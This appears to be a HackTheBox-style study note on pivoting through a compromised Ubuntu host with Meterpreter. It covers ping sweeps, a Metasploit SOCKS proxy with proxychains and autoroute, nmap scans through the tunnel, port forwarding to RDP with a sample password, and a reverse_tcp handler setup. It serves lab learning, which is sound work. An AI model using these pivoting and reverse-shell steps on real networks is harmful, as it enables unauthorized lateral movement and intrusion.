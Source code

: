 ```yaml
---
title: e-Meterpreter Tunneling
draft: false
tags:
---
```

Let's say we have meterpreter shell on Ubuntu PivotHost. 

We can create pivot through meterpreter without SSH port forwarding. 

We want to interact with Windows machine that is connected to Ubuntu PivotHost

## Ping Sweep
### Meterpreter

```shell-session
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23

[*] Performing ping sweep for IP range 172.16.5.0/23
```

### For loop Linux

```shell-session
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done

`time for i in $(seq 1 254); do (ping -c 1 192.168.122.${i} | grep "bytes from" &); done`
```
### For loop CMD

```cmd-session
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```

### PowerShell 

```powershell-session
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```

## Meterpreter Tunneling

Let's first configure MSF's SOCKS proxy:

```shell-session
msf6 > use auxiliary/server/socks_proxy

msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) > options

Module options (auxiliary/server/socks_proxy):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The address to listen on
   SRVPORT  9050             yes       The port to listen on
   VERSION  4a               yes       The SOCKS version to use (Accepted: 4a,
                                        5)


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server
```

Above configuration starts a listener on port 9050 and routes all the traffic received via our meterpreter session.

We can confirm the proxy server running as such:

```shell-session
msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  0   Auxiliary: server/socks_proxy
```

Now that we have initiated the SOCKS server, we will configure proxychains to route traffic generated through our pivot on the compromised Ubuntu PivotHost.

Let's edit `/etc/proxychains.conf` as such:

```shell-session
socks4 	127.0.0.1 9050
```

We will now set up to route all the traffic via our meterpreter session using `post/multi/manage/autoroute`:

```shell-session
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.129.202.64
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.5.0/255.255.254.0 from host's routing table.
[*] Post module execution completed
```


We can confirm autoroute by checking the route being added to 172.16.5.0/23:

```shell-session
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.129.0.0         255.255.0.0        Session 1
   172.16.4.0         255.255.254.0      Session 1
   172.16.5.0         255.255.254.0      Session 1
```

Now we can use proxychains to route our nmap traffic via our Meterpreter session:

```shell-session
jadu101@htb[/htb]$ proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn

ProxyChains-3.1 (http://proxychains.sf.net)
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-03 13:40 EST
Initiating Parallel DNS resolution of 1 host. at 13:40
Completed Parallel DNS resolution of 1 host. at 13:40, 0.12s elapsed
Initiating Connect Scan at 13:40
Scanning 172.16.5.19 [1 port]
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19 :3389-<><>-OK
Discovered open port 3389/tcp on 172.16.5.19
Completed Connect Scan at 13:40, 0.12s elapsed (1 total ports)
Nmap scan report for 172.16.5.19 
Host is up (0.12s latency).

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds
```

## Meterpreter Port Forwarding

We can use Metasploit's `portfwd` for port forwarding. 

We will set up a listener on our attacker host and request meterpreter to forward all the packets received on this port via our meterpreter sessions to a remove host. 

```shell-session
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19

[*] Local TCP relay created: :3300 <-> 172.16.5.19:3389
```

Above starts a listener on attacker host's port 3300 and forward all the packets to the remote Windows server on port 3389. 

So we can now execute xfreerdp on attacker host's port 3300. 

```shell-session
jadu101@htb[/htb]$ xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```


## Meterpreter Reverse Port Forwarding

We will start a listener on attacker host (port 8081). 

Ubuntu PivotHost server will forward all requests received on port 1234 to attacker host's port 8081.

```shell-session
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18

[*] Local TCP relay created: 10.10.14.18:8081 <-> :1234
```

Or to start a new session:

```shell-session
meterpreter > bg

[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8081 
```

